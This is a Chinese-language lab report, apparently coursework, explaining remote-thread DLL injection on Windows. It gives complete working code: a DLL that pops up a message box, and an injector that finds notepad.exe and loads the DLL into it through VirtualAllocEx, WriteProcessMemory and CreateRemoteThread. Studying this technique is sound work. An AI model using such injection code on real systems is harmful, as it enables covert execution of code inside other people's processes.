

# DLL注入

## 实验目的

> 1、查文档，研究远程线程方式注入dll的实例代码的实现原理。
>
> 2、运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll（运行notepad.exe时弹出messagebox），加载运行。
>
> 3、整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid

## 过程

### 远程线程注入基本原理

- 远程线程注入，其主要核心在于一个Windows API函数CreateRemoteThread，通过它可以在另外一个进程中注入一个线程并执行。在提供便利的同时，正是因为如此，使得系统内部出现了安全隐患。常用的注入手段有两种：一种是远程的dll的注入，另一种是远程代码的注入。后者相对起来更加隐蔽，也更难被杀软检测。

- 顾名思义，远程线程注入就是在非本地进程中创建一个新的线程。相比而言，本地创建线程的方法很简单，系统API函数CreateThread可以在本地创建一个新的线程，其函数声明如下：

```c
HANDLE WINAPI CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    PDWORD lpThreadId
    );
```

- 这里最关心的两个参数是lpStartAddress和lpParameter，它们分别代表线程函数的入口和参数，其他参数一般设置为0即可。由于参数的类型是LPVOID，因此传入的参数数据需要用户自己定义，而入口函数地址类型必须是LPTHREAD_START_ROUTINE类型。

- LPTHREAD_START_ROUTINE类型定义为：

```c
typedef DWORD (WINAPI *PTHREAD_START_ROUTINE)(LPVOID lpThreadParameter);
typedef PTHREAD_START_ROUTINE LPTHREAD_START_ROUTINE;
    按照上述定义声明的函数都可以作为线程函数的入口，和CreateThread类似，CreateRemoteThread的声明如下： 
HANDLE WINAPI CreateRemoteThread(
    HANDLE hProcess,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
    );
```

- 可见该函数就是比CreateThread多了一个参数用于传递远程进程的打开句柄，而我们知道打开一个进程需要函数OpenProcess，其函数声明为：

```c
HANDLE WINAPI OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
    );
```

- 第一个参数表示打开进程所要的访问权限，一般使用PROCESS_ALL_ACCESS来获得所有权限，第二个参数表示进程的继承属性，这里设置为false，最关键的参数是第三个参数——进程的ID。因此在此之前必须获得进程名字和PID的对应关系

### 远程线程DLL注入

- 我们需要知道Win32程序在运行时都会加载一个名为kernel32.dll的文件，而且Windows默认的是同一个系统中dll的文件加载位置是固定的。我们又知道dll里有一系列按序排列的输出函数，因此这些函数在任何进程的地址空间中的位置是固定的.

- 其次，我们需要知道动态加载dll文件需要系统API LoadLibraryA或者LoadLibraryW，由于使用MBCS字符集，这里我们只关心LoadLibraryA，而这个函数正是kernel32.dll的导出函数,因此我们就能在本地进程获得了LoadLibraryA的地址，然后告诉远程进程这就是远程线程入口地址，那么远程线程就会自动的执行LoadLibraryA这个函数。

### 实验过程

- 创建dll项目文件，生成.dll文件

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>
#include <stdlib.h>
int APIENTRY function(const char* m)
{
    MessageBoxA(NULL, "This is a messagebox from notepad.exe",m, MB_OK);
    return 0;
}
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        function("hook");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```

- 编写代码进行注入dll

```c
#include <stdio.h>
#include <windows.h>
//t_CreateRemoteThread函数
#include <tlhelp32.h>
//#include "fheaders.h"
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
    // Calculate the number of bytes needed for the DLL's pathname
    DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
    // Get process handle passing in the process ID
    HANDLE hProcess = OpenProcess(
        PROCESS_QUERY_INFORMATION |
        PROCESS_CREATE_THREAD |
        PROCESS_VM_OPERATION |
        PROCESS_VM_WRITE,
        FALSE, dwProcessId);
    if (hProcess == NULL)
    {
        return(1);
    }
    // Allocate space in the remote process for the pathname
    LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (pszLibFileRemote == NULL)
    {
        return(1);
        }
    // Copy the DLL's pathname to the remote process address space
    DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
    if (n == 0)
    {

        return(1);
    }
    // Get the real address of LoadLibraryW in Kernel32.dll
    PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    if (pfnThreadRtn == NULL)
    {

        return(1);
        }
    // Create a remote thread that calls LoadLibraryW(DLLPathname)
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
    if (hThread == NULL)
    {

        return(1);
    }
    else
    // Wait for the remote thread to terminate
    WaitForSingleObject(hThread, INFINITE);
    // Free the remote memory that contained the DLL's pathname and close Handles
    if (pszLibFileRemote != NULL)
        VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
    if (hThread != NULL)
        CloseHandle(hThread);
    if (hProcess != NULL)
        CloseHandle(hProcess);
    return(0);
}
int main()
{
    HANDLE hProcessSnap;
    HANDLE hProcess;
    PROCESSENTRY32 pe32;
    DWORD dwPriorityClass;

    // Take a snapshot of all processes in the system.
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
    return(FALSE);
    }

    // Set the size of the structure before using it.
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // Retrieve information about the first process,
    // and exit if unsuccessful
    if (!Process32First(hProcessSnap, &pe32))
    {
        CloseHandle(hProcessSnap);          // clean the snapshot object
        return(FALSE);
    }

    // Now walk the snapshot of processes, and
    // display information about each process in turn
    do
    {

    // Retrieve the priority class.
        dwPriorityClass = 0;
        hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
        if (lstrcmp(pe32.szExeFile, TEXT("notepad.exe")) == 0)
        {
            demoCreateRemoteThreadW(L"C:\\Users\\dell\\source\\repos\\Dll3\\Debug\\hook.dll", pe32.th32ProcessID);

        }


    } while (Process32Next(hProcessSnap, &pe32));

    CloseHandle(hProcessSnap);
    getchar();
    return(TRUE);
}
```

- 运行hook.exe,打开notepad.exe，发现打开记事本后有弹窗弹出


